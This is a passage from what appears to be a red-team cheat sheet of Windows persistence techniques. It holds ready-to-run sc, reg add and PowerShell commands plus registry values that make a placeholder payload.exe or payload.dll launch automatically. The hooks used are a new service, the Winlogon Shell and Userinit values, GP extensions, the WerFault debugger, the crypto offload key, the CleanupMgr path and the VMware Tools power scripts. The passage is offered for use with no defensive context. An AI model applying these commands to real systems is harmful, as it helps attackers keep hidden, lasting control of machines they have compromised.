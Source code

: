 #### SC service creation
```command prompt - windows
sc create newservice type= own type= interact binPath=
“C:\windows\system32\cmd.exe /c payload.exe" & sc start newservice
```

#### Winlogon Helper DLL Shell
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Shell" "explorer.exe, payload.exe" -Force
```

#### Winlogon Helper DLL UserInit
```command prompt - windows
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, payload.exe" /f
```

```powershell - windows
Set-ItemProperty "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\" "Userinit" "Userinit.exe, payload.exe" -Force
```

#### Winlogon GP Extensions
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows
NT\CurrentVersion\Winlogon\GPExtensions\$GUID\DllName=payload.dll
```

#### OMA Client Provisioning dmcfghost.exe
```command prompt - windows
HKLM\SOFTWARE\Microsoft\PushRouter\Test\TestDllPath2=payload.dll
```

#### Werfault.exe Reflective Debugger
```command prompt - windows
HKLM\Software\Microsoft\Windows\Windows Error Reporting\Hangs\ReflectDebugger=<path\to\payload.exe>
```

```command prompt - windows
werfault.exe -pr 1
```

#### OffloadModExpo Function
```command prompt - windows
HKLM\Software\Microsoft\Cryptography\Offload\ExpoOffload=payload.dll
```

#### DiskCleanup CleanupMgr
```command prompt - windows
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MyComputer\
cleanuppath = %SystemRoot%\System32\payload.exe
```

#### VMware Tools BAT File Persistence
Add command into one or more of the following:

C:\Program Files\VMware\VMware Tools\poweroff-vm-default.bat
C:\Program Files\VMware\VMware Tools\poweron-vm-default.bat
C:\Program Files\VMware\VMware Tools\resume-vm-default.bat
C:\Program Files\VMware\VMware Tools\suspend-vm-default.bat














